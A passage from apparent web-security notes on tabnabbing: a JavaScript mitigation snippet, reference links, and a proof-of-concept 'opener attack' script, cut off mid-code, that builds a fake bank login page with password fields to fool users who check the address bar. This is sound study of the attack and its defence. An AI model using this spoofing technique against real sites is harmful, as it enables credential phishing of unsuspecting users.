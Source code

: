 Or use JavaScript:

```js
let target = window.open("about:blank"/*other params*/);
target.document.write(`<script>window.opener=null;location.replace("${url}")</script>`);
// data URI can't be used here because of IE. You can use blob URI, but it's not pratical because we need to revoke the object URL once the popup is loaded
```

- [Tabnabbing attack on Facebook](https://gist.github.com/mems/df881c9495b6744b650c)
- [Tabnabbing — Wikipedia](https://en.wikipedia.org/wiki/Tabnabbing)
- [Phishing by navigating browser tabs - Bughunter University](https://sites.google.com/site/bughunteruniversity/nonvuln/phishing-with-window-opener)
- [About rel=noopener](https://mathiasbynens.github.io/rel-noopener/)
- [Window.opener - Web APIs | MDN](https://developer.mozilla.org/en-US/docs/Web/API/Window/opener)
- [Issue 156712 - chromium - html anchors set window.opener (spoofing/phishing threat) - Monorail](https://bugs.chromium.org/p/chromium/issues/detail?id=156712)
- [Links to Unrelated Browsing Contexts - WHATWG Wiki](https://wiki.whatwg.org/wiki/Links_to_Unrelated_Browsing_Contexts)
- [Target="_blank" is an underestimated vulnerability | Hacker News](https://news.ycombinator.com/item?id=11631292)
- [Login-stealing phishing sites conceal their evil with lots of hyphens in URL | Ars Technica](https://arstechnica.com/security/2017/06/phishing-attacks-target-mobile-browsers-with-dash-padded-urls/)

Opener attack opened (inverse technique):

```html
<script>
/*
If you don't get it, banking.beaver-peak.us is a trusted banking website;
everything else is attacker-controlled. We begin by opening the legitimate
banking website, and giving the user enough time to examine the address bar.

There is a common misconception that changing the URL must result in a visible
page transition that alerts the user to foul play, but that's not the case.

PS. In older versions of Firefox, where the http:// prefix is not hidden,
this will look a bit less convincing due to the misalignment of URLs. Easy to
fix, but upgrade your browser already.

PPS. Bonus question: can you do something useful by flipping two pages
very rapidly, especially with history.*? What are the implications for
clickjacking & friends?
*/
var spaces = 
  "                                                                          " +
  "                                                                          " +
  "                                                                          " +
  "                                                                          " +
  "                                                                          " +
  "                                                                          " +
  "                                                                          " +
  "                                                                          ";
var bank_html =
  '<title>Beaver Peak Banking and BBQ</title>' +
  '<img src="http://banking.beaver-peak.us/banking_interface/beaver-peak.jpg" style="float: left; margin-right: 10px">' +
  '<font size=+3 color=steelblue><b>Beaver Peak Banking and BBQ</b></font><br>' +
  '<i>"Best steaks in town!"</i> -- Creek and Brook Daily<br clear="all"><p> ' +
  '<font color=crimson>Security tip: confirm that <i>http://banking.beaver-peak.us/</i> is present in the address bar!</font>' +
  '<p><b>Please login to our secure banking system:</b><p><table><tr><td>Login:</td><td><input type=text></td></tr><tr>' +
  '<td>Password:</td><td><input type=password></td></tr></table><p><input type=submit value="Log in!">' +
```